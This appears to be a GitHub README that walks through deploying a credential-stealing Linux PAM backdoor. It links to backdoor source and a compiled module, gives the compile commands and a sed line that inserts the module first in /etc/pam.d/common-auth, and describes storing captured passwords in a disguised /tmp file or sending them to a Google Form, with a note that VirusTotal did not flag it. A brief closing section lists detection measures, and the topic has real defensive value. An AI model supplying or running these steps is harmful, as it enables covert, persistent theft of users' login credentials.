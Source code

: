 #### Disclaimer

_This article is intended for educational and awareness purposes only. The techniques demonstrated are for understanding security risks and improving defenses. Unauthorized use or replication of these methods for malicious activities is strictly prohibited and may be illegal. Always obtain proper authorization before testing or simulating attacks on any systems. The author is not responsible for any misuse, damage, or illegal activities resulting from applying the techniques discussed._

### Background  
PAM modules are dynamically loaded components that handle authentication on Linux systems. Attackers can exploit this by installing malicious modules and modifying PAM’s configuration to load them during login. This allows the attacker to secretly capture user credentials whenever authentication occurs, making it a powerful vector for persistent access and data theft  

Note: This was tested on Debian-based systems. The provided steps are specifically tailored for Debian/Ubuntu environments. For Fedora or Red Hat systems, just update the library and configuration file paths—the module code remains the same.  
#### How the infostealer(custom module) works?
The malicious code hooks into _pam_sm_authenticate()_, capturing the username via _pam_get_user()_ and the password via _pam_get_authtok()_ before silently logging or exfiltrating them. Meanwhile, _pam_sm_setcred()_ completes the authentication process to avoid detection.

I’ve uploaded code for two Linux PAM modules: one logs credentials to disk (already compiled), and the other exfiltrates to Google Forms (requires updating values before compiling). Download [here](https://github.com/le0li9ht/ThreatHunting/blob/main/Linux/PAM/StealingCredentials/pam_backdoor_lab.zip)  
##### Code files

```
pam_backdoor_lab.zip
│
├── pam_backdoor_disklog/
│   ├── pam_backdoor.c
|   ├── pam_backdoor.so
└── pam_backdoor_googleform/
    ├── pam_backdoor.c
```

For the first, just copy the compiled module to the shared library location.  I have not compiled the second module yet because it requires updating the Google Form URL(as shown in below image) and entry values in the source code. Once those are set, you can compile and deploy the module.    

![image](https://github.com/user-attachments/assets/e5021065-7e31-4744-804d-8bf18cf60bcf)  



At the time of writing, this module was not flagged as malicious by VirusTotal, highlighting how such techniques can easily evade standard detection mechanisms.  
Sample1:
![2025-06-08_01-42](https://github.com/user-attachments/assets/2a19e69b-50cc-4979-a96d-056d352f846b)  
https://www.virustotal.com/gui/file/c7022836a3f92a6589df7cce99ee3db69ce0a98a7c266ba90a8ec5e37227329e?nocache=1   

Sample2: 
![2025-06-08_13-19](https://github.com/user-attachments/assets/d0a56c5d-2247-4db7-85fb-7a38561873b5)  

https://www.virustotal.com/gui/file/5dc45286ff0904add55a4c2b286f0e79c7b880dfa21c6badbb5f814fefd7476e?nocache=1  


#### Step 1: Install Development Package for PAM Modules    
You need to install libpam0g-dev because it provides the header files and libraries required to compile custom PAM modules  
```
sudo apt update  
sudo apt install libpam0g-dev  
```  
#### Step 2: Compile the Custom PAM Module  
```
gcc -fPIC -fno-stack-protector -c pam_backdoor.c  
ld -x --shared -o pam_backdoor.so pam_backdoor.o
```
#### Step3: Deploy the Compiled Module into PAM's Trusted Directory  
Copy the Custom module to /lib/x86_64-linux-gnu/security/ because it’s the default trusted location for PAM modules, ensuring it’s automatically loaded by all PAM-aware services and stays hidden among legitimate system files for better stealth and persistence.   
```
sudo cp pam_backdoor.so /lib/x86_64-linux-gnu/security/
```      
Modify the _common-auth_ file under _/etc/pam.d_ , which handles authentication, by inserting the backdoor module at the top of the PAM authentication stack. This ensures it executes first during all authentication requests, allowing the backdoor to intercept credentials stealthily and persistently across system login processes.  
```
sed -i '1i auth required pam_backdoor.so' /etc/pam.d/common-auth
```   

#### Step4: Test the Infostealer Module 
Perform any authentication action like `sudo`, `su`, `su -`, or SSH logins. The backdoor will capture and log all credentials during these authentications.
```
sudo su
su -
ssh user@ip
```

- **If using the disk-logging module:**  
All captured credentials are saved to a hidden, seemingly legitimate file on disk named /tmp/.X11-unixs. To view the stolen creds, run:   
```
cat /tmp/.X11-unixs
```
![2025-06-08_01-34](https://github.com/user-attachments/assets/63e2bfb4-5833-44b1-bce3-e8afeb6fe1ce)


- **If using the Google Forms exfiltration module:**
Credentials are sent silently to your configured Google Form. Check your Google Form responses to verify captured data as shown.
![2025-06-08_00-54_1](https://github.com/user-attachments/assets/ae275802-ce96-4481-9354-c30fae9c7e56)   
![2025-06-08_00-54](https://github.com/user-attachments/assets/8d773b2c-7369-4e9e-af75-7961f9da1fef)
Exfiltrated credentials on google form.
  
#### Detection. 
Always monitor the directories where PAM modules are loaded—such as _/etc/pam.d/_ and _/lib/security/_  _/lib/x86_64-linux-gnu/security/_  —using File Integrity Monitoring (FIM) to detect unauthorized changes.  

Elastic has written a nice detection rule for the same [persistence_pluggable_authentication_module_creation](https://github.com/elastic/detection-rules/blob/ac541f0b18697e053b3b56544052955d29b440c0/rules/linux/persistence_pluggable_authentication_module_creation.toml)  
##### MITRE. 
[T1556.003 - Pluggable Authentication Modules: Malicious PAM](https://attack.mitre.org/techniques/T1556/003/)  


